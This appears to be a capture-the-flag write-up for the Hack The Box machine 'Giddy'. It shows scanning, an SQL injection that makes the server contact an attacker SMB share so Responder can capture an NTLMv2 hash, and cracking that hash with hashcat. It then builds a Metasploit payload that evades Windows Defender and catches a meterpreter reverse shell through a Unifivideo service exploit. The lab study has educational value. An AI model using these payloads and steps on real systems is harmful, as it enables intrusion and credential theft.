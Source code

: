 nmap scan:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
|_ssl-date: 2020-12-17T18:51:08+00:00; 0s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GIDDY
|   NetBIOS_Domain_Name: GIDDY
|   NetBIOS_Computer_Name: GIDDY
|   DNS_Domain_Name: Giddy
|   DNS_Computer_Name: Giddy
|   Product_Version: 10.0.14393
|_  System_Time: 2020-12-17T18:50:35+00:00
| ssl-cert: Subject: commonName=Giddy
| Not valid before: 2020-12-16T18:44:56
|_Not valid after:  2021-06-17T18:44:56
|_ssl-date: 2020-12-17T18:51:08+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Enumerating port 80

We have a website with just an image, I'll run gobuster to find hidden directories:

```
sudo gobuster -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.104 -t 50
/remote (Status: 302)
/mvc (Status: 301)
```

`/remote`:

![image1](/assets/images/htb-giddy/giddy1.png)

After connecting with https:

![image2](/assets/images/htb-giddy/giddy2.png)

`mvc`:

![image3](/assets/images/htb-giddy/giddy3.png)

Here we have a search form:

![image4](/assets/images/htb-giddy/giddy4.png)

If I send a `'` to test sql injection I get this error:

![image5](/assets/images/htb-giddy/giddy5.png)

The requests would be like this:

```
SELECT * FROM products WHERE name LIKE 'a' 
```

And when I add a `'`:

```
SELECT * FROM products WHERE name LIKE 'a''
```

That's why we get the error, now for exploiting this we are going to try to connect the mssql server to our smb share and with responder get the NTLMv2 hash:

### Exploiting the sql injection to get the NTLMv2 hash with responder

I'm going to exploit it using the `?ProductSubCategoryId` query because it's easier to read and it's vulnerable to sql injection too, we are going to use this:

```
declare @q varchar(100);
set @q='\\10.10.14.11\share';
exec master.dbo.xp_dirtree @q;
```

And we send it url encoded 

![image6](/assets/images/htb-giddy/giddy6.png)

Then start the responder with:

```
sudo python2 Responder.py -I tun0
```

and we have the hash:

![image7](/assets/images/htb-giddy/giddy7.png)

Now with hashcat I cracked the password using this command:

```
.\hashcat.exe -m 5600 .\hash.txt .\rockyou.txt
```

And the password is: `xNnWo6272k7x`

### Enumeration of the privesc vector

Now I'll log in with the credentials in `/remote`:

![image8](/assets/images/htb-giddy/giddy8.png)

We have a shell as stacy and on the `documents` folder has `unifivideo`:

![image9](/assets/images/htb-giddy/giddy9.png)

Unifivideo has an [exploit](https://www.exploit-db.com/exploits/43390) that permits us privesc.

For this we are going to generate a meterpreter reverse shell that evades the Windows Defender (the normal one doesn't work).

### Generating a reverse shell that evades the Windows Defender

```
msf6 > use evasion/windows/windows_defender_exe
msf6 evasion(windows/windows_defender_exe) > set lhost tun0
msf6 evasion(windows/windows_defender_exe) > set lport 9001
msf6 evasion(windows/windows_defender_exe) > run 
```

Now copy the file to a location and in that location start a smb share:

```
sudo python3 /opt/impacket/examples/smbserver.py share .
```

### Getting the reverse shell as administrator

Next on the windows shell download the file:

![image10](/assets/images/htb-giddy/giddy10.png)

Rename it to: `taskkill.exe`:

![image11](/assets/images/htb-giddy/giddy11.png)

Start a handler with metasploit with the meterpreter reverse shell

Now start and stop the service:

![image12](/assets/images/htb-giddy/giddy12.png)

And I get the shell back:

```
msf6 exploit(multi/handler) > run                                      
[*] Started reverse TCP handler on 10.10.14.11:9001                             
[*] Sending stage (175174 bytes) to 10.10.10.104                       
[*] Meterpreter session 1 opened (10.10.14.11:9001 -> 10.10.10.104:50021) at 2020-12-19 13:58:26 -0800
```
